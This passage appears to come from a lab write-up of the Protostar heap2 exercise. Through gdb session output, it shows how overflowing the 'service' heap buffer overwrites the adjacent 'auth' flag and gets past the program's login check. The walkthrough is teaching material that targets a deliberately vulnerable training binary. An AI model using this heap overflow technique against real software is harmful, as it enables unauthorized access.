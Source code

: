 
Based on that information, we can use the `service` to just overflow until it hits the `auth->auth` address:
```bash
(gdb) c
Continuing.
[ auth = (nil), service = (nil) ]
auth AAA

Breakpoint 2, 0x0804895f in main (argc=1, argv=0xbffff754) at heap2/heap2.c:20
20	in heap2/heap2.c
--------------------------------------------
0x804c000:	0x00000000	0x00000011	0x0a414141	0x00000000
0x804c010:	0x00000000	0x00000ff1	0x00000000	0x00000000
0x804c020:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c030:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c040:	0x00000000	0x00000000	0x00000000	0x00000000
--*auth--------------------------------------
$17 = {name = "AAA\n\000\000\000\000\000\000\000\000\361\017", '\000' <repeats 17 times>, auth = 0}
--service-----------------------------------
$18 = 0x0
--------------------------------------------
[ auth = 0x804c008, service = (nil) ]
serviceBBBBCCCCDDDDEEEEFFFF 

Breakpoint 2, 0x0804895f in main (argc=1, argv=0xbffff754) at heap2/heap2.c:20
20	in heap2/heap2.c
--------------------------------------------
0x804c000:	0x00000000	0x00000011	0x0a414141	0x00000000
0x804c010:	0x00000000	0x00000021	0x42424242	0x43434343
0x804c020:	0x44444444	0x45454545	0x46464646	0x0000000a
0x804c030:	0x00000000	0x00000fd1	0x00000000	0x00000000
0x804c040:	0x00000000	0x00000000	0x00000000	0x00000000
--*auth--------------------------------------
$19 = {name = "AAA\n\000\000\000\000\000\000\000\000!\000\000\000BBBBCCCCDDDDEEEE", auth = 1179010630}
--service-----------------------------------
$20 = 0x804c018 "BBBBCCCCDDDDEEEEFFFF\n"
--------------------------------------------
[ auth = 0x804c008, service = 0x804c018 ]
login
you have logged in already!

Breakpoint 2, 0x0804895f in main (argc=1, argv=0xbffff754) at heap2/heap2.c:20
20	in heap2/heap2.c
--------------------------------------------
0x804c000:	0x00000000	0x00000011	0x0a414141	0x00000000
0x804c010:	0x00000000	0x00000021	0x42424242	0x43434343
0x804c020:	0x44444444	0x45454545	0x46464646	0x0000000a
0x804c030:	0x00000000	0x00000fd1	0x00000000	0x00000000
0x804c040:	0x00000000	0x00000000	0x00000000	0x00000000
--*auth--------------------------------------
$21 = {name = "AAA\n\000\000\000\000\000\000\000\000!\000\000\000BBBBCCCCDDDDEEEE", auth = 1179010630}
--service-----------------------------------
$22 = 0x804c018 "BBBBCCCCDDDDEEEEFFFF\n"
--------------------------------------------
[ auth = 0x804c008, service = 0x804c018 ]
```